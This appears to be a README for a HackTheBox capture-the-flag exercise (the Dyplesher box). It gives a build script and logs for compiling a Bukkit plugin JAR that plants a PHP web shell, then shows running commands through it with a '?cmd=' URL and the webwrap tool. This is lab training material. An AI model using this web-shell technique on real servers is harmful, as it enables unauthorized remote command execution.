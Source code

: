 # HTB-Dyplesher :alien:
# Warning message
**This is _not_ a complete write-up for the Dyplesher (10.10.10.190), box always active (27-09-2020), just a small nudge for the foothold part.**

**I developed this Bash script and use these files because I didn't want to depend/use on a heavy Integrated Development Environment (IDE).**
# Description
Ceate a Bukkit plugin without using an IDE. This is a simple build script written in Bash to create your Java archive data (JAR) from a Linux platform.

The JAR file will create a PHP web shell.

I used it on the box Dyplesher from HackTheBox platform to obtain the first "pseudo" shell on the box.

(source: https://bukkit.org/threads/creating-plugin-without-an-ide.136603/page-2)
# Usage/Installation
Unzip the zip file and execute the Bash script:
```
git clone https://github.com/choupit0/HTB-Dyplesher.git
cd HTB-Dyplesher
unzip payload.zip
cd payload/
./Compile.sh
```
# Logs

```
root@HTB:~# git clone https://github.com/choupit0/HTB-Dyplesher.git
Cloning into 'HTB-Dyplesher'...
Username for 'https://github.com': choupit0
Password for 'https://choupit0@github.com':
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (6/6), 17.05 MiB | 4.38 MiB/s, done.
```

```
root@HTB:~# cd HTB-Dyplesher/
root@HTB:~/HTB-Dyplesher# unzip payload.zip
Archive:  payload.zip
   creating: payload/
   creating: payload/htb/
   creating: payload/htb/dyplesher/
   creating: payload/htb/dyplesher/plugin/
  inflating: payload/htb/dyplesher/plugin/CreateFile.java
   creating: payload/lib/
  inflating: payload/lib/spigot-1.8.jar
   creating: payload/bin/
   creating: payload/bin/htb/
   creating: payload/bin/htb/dyplesher/
   creating: payload/bin/htb/dyplesher/plugin/
  inflating: payload/Compile.sh
   creating: payload/src/
  inflating: payload/src/plugin.yml
```

```
root@HTB:~/HTB-Dyplesher# tree
.
├── payload
│   ├── bin
│   │   └── htb
│   │       └── dyplesher
│   │           └── plugin
│   ├── Compile.sh
│   ├── htb
│   │   └── dyplesher
│   │       └── plugin
│   │           └── CreateFile.java
│   ├── lib
│   │   └── spigot-1.8.jar
│   └── src
│       └── plugin.yml
├── payload.zip
└── README.md

10 directories, 6 files
```

```
root@HTB:~/HTB-Dyplesher# cd payload/
root@HTB:~/HTB-Dyplesher/payload# ./Compile.sh
added manifest
adding: htb/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/plugin/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/plugin/CreateFile.class(in = 1410) (out= 847)(deflated 39%)
adding: plugin.yml(in = 187) (out= 146)(deflated 21%)
```

Our JAR file named "createfile.jar" has been created:
```
root@HTB:~/HTB-Dyplesher/payload# tree
.
├── bin
│   ├── htb
│   │   └── dyplesher
│   │       └── plugin
│   │           └── CreateFile.class
│   └── plugin.yml
├── Compile.sh
├── createfile.jar
├── htb
│   └── dyplesher
│       └── plugin
│           └── CreateFile.java
├── lib
│   └── spigot-1.8.jar
└── src
    └── plugin.yml

9 directories, 7 files
```
# Obtaining a "pseudo" shell
Put in your hosts file: dyplesher.htb + [subdomain].dyplesher.htb = 10.10.10.190

Once you have you JAR file, add the plugin and reload it on the web interface:

http://dyplesher.htb/home/add
http://dyplesher.htb/home/reload

Then, check you can launch a PHP command:

http://[subdomain].dyplesher.htb/batman.php?cmd=id

uid=1001([user]) gid=1001([user]) groups=1001([user]),122([group])

Finally, install this great tool:

https://github.com/mxrch/webwrap

With your web shell you will be able to simulate a terminal:

```
root@HTB:~/HTB/Dyplesher/webwrap# ./webwrap http://[subdomain].dyplesher.htb/batman.php?cmd=WRAP

[user]@dyplesher:/var/www/[subdomain]$ ls
README.md
batman.php
index.php
```

I let you imagine the rest, no spoilers here ;)
